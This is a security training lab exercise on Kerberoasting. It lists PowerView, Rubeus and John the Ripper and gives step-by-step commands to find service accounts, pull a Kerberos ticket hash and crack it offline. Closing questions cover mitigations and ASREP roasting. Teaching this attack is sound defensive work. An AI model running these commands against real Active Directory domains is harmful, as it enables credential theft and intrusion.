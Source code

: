 # Exercise 3 - Kerberos (Roasting)

## Tools

You can find all tools needed in the ["attacker-tools.zip"-file](../exercises/attacker-tools). The links below are for your own reference.

Tools needed:

- PowerView: [https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
- Rubeus: [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)
- john: [https://www.openwall.com/john/](https://www.openwall.com/john/)

## Exercise

In this exercise, we'll use Kerberoasting to crack the password of the service account "taskservice".

First, load Powerview and Rubeus.

```
cd C:\attacker-tools
cat -raw .\PowerView.ps1 | iex
cat -raw .\Invoke-Rubeus.ps1 | iex
```

Get all domain users with a Service Principal Name (SPN).

```
Get-DomainUser -SPN | select samaccountname, description, pwdlastset, serviceprincipalname
```

You can also use rubeus to get better statistics (useful in large environments and for audit reports ;-) ).

```
Invoke-Rubeus -Command "kerberoast /stats"
```

Run rubeus to get a TGS for the target user.

```
Invoke-Rubeus -Command "kerberoast /user:taskservice /format:hashcat /outfile:krb5tgs.txt"
```

Crack the TGS with john.

```
cd C:\attacker-tools\john\run
.\john.exe <path-to-krb5tgs.txt> --wordlist=..\..\example.dict --rules=passphrase-rule2
```


## Questions

 - Do an online research on how to best mitigate kerberoasting attacks. Describe the mitigation techniques that you think are the best and explain why you chose them.
 - There is another user account vulnerable to ASREP roasting. Crack his password using similar commands like in the previous exercise. (Hint: Get-DomainUser -NoPreauth)
 - Explain the difference between the two attacks you just executed (TGS vs. ASREP roasting).
